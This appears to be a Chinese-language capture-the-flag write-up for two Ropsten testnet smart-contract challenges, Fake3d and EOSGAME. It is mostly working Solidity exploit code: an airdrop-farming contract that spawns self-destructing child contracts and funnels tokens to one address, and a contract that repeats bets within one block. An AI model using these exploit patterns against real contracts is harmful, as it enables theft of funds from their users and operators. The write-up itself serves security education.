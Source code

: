 # Fake3d
题目地址：0xd229628fd201a391cf0c4ae6169133c1ed93d00a @ ropsten
薅羊毛攻击：
```js
contract father {
    function father() payable {}
    Son son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new Son();
        }
    }
    function () payable {
    }
}

contract Son {

    function Son() payable {
        Fake3D f3d;
        f3d=Fake3D(0x4082cC8839242Ff5ee9c67f6D05C4e497f63361a);
        f3d.airDrop();
        if (f3d.balance(this)>=10)
        {
            f3d.transfer(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f,10);
        }
        selfdestruct(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f);
    }
    function () payable{
    }
}
```
攻击完成后，提取flag时发现不对劲，有问题，怀疑winnerlist合约不对，找到了该合约真正的地址，并继续逆向：
https://ethervm.io/decompile?address=0xd229628fd201a391cf0c4ae6169133c1ed93d00a&network=ropsten
简单来说，还需要满足用户的地址最后为0x43或倒数2位为0xb1. 用https://vanity-eth.tk/
爆破，得到地址，转账，获取flag。

### EOSGAME
题目地址：0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F @ ropsten

赌博游戏，赌就行了，写个攻击合约在一个block里面多赌几次。20%中100倍奖励，很划算
```js
contract EOSGame_exp{
    EOSGame eosgame;
    
    constructor() public{
        eosgame=EOSGame(0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F);
    }
    
    function init() public{
        eosgame.initFund();
    }
    
    function small(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.smallBlind();
        }
    }
    
    function big(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.bigBlind();
        }
    }
    
    function bof() public view returns(uint256){
        return eosgame.eosBlanceOf();
    }
    
    function flag(string b64email) public{
        eosgame.CaptureTheFlag(b64email);
    }
}
```
